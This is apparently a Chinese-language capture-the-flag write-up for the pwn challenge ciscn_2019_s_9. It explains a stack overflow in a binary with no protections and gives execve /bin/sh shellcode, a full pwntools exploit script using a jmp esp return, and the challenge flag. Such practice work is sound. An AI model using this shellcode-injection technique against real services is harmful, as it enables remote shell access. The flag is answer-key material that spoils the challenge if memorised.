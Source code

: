 # ciscn_2019_s_9

[题目地址](https://buuoj.cn/challenges#ciscn_2019_s_9)

完全不会写汇编。

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

啥也没开，好事。main函数内部调用了pwn函数。

```c
```

很明显的栈溢出，虽然溢出字节不多，但是我们可以把shellcode存进buffer里，然后想个办法跳转过去就行了，毕竟nx没开。程序内还有个hint函数，佐证了我的思路。

```c
```

本来打算用pwntools直接生成shellcode，结果发现太长了。我也不会缩短，找个[wp](https://blog.csdn.net/mcmuyanga/article/details/113317412)看看吧。缩短后如下：

```
xor eax,eax
xor edx,edx
push edx
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
xor ecx,ecx
mov al,0xB
int 0x80
```

还有一个我不会但是很重要的点在于，我不知道怎么算buffer存储内容到底距离esp多少。看exp就知道我在说什么了。

```python
from pwn import *

p=remote('node4.buuoj.cn',25537)
context(log_level='debug',arch='i386',os='linux')

jump_esp=0x8048554
shellcode='''
xor eax,eax
xor edx,edx
push edx
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
xor ecx,ecx
mov al,0xB
int 0x80
'''

#hellcode=asm(shellcode)

shellcode = b"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

payload=shellcode.ljust(0x24,b'\x00')+p32(jump_esp) #返回地址填esp，那么程序执行栈还会保留在esp上

#payload+=asm("sub esp,40;call esp")
payload+=b'\x83\xec(\xff\xd4'  #我们接着再往esp里写入这串汇编代码，由于执行栈在这里，便会执行这串代码。代码是为了把esp的值调整到buffer内容（shellcode）的地址。然后call esp执行
p.sendline(payload)
p.interactive()
```

我不知道的地方在于大佬们是怎么算出来esp和buffer内容正好差40的？不行要搞个调试的东西了。

## Flag
- flag{fa7d2c02-e71e-486d-90d9-e0431ba0480a}
